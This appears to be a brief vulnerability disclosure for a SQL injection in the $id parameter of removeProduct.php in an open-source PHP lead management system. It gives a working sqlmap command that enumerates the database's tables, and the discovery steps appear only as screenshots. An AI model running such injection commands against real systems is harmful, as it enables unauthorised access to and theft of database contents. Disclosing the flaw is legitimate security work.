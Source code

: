 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20221219172028118](C:\markdown\images\image-20221219172028118.png)

EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeProduct.php?id=1" --dbms=mysql -D penglead --tables
```

![image-20221219171942351](C:\markdown\images\image-20221219171942351.png)